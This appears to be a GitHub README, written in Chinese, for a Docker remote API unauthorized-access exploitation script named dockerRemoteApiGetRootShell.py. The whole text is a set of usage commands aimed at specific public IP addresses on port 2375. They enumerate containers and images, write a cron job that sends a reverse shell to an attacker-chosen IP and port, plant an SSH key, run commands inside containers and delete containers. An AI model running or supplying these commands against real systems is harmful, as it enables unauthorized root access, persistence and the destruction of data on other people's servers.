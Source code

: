 # docker_api_vul
docker 未授权访问漏洞利用脚本

##安装docker-py库

    pip install docker-py

##查看运行的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375

##查看所有的容器

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -a

##查看所有镜像

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -l

##查看端口映射

    python dockerRemoteApiGetRootShell.py -h 139.217.25.172 -p 2375 -L

##写计划任务（测试centos;ubuntu可能需要自己修改计划任务路径）

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口

##写sshkey(自行修改脚本的中公钥)

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -C -i 镜像名 -k

##在容器中执行命令

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -e "id" -I 容器id

##删除容器

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -c -I 容器id

#修改client api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -v 1.22

#查看服务端api版本

    python dockerRemoteApiGetRootShell.py -h 158.85.173.113 -p 2375 -V

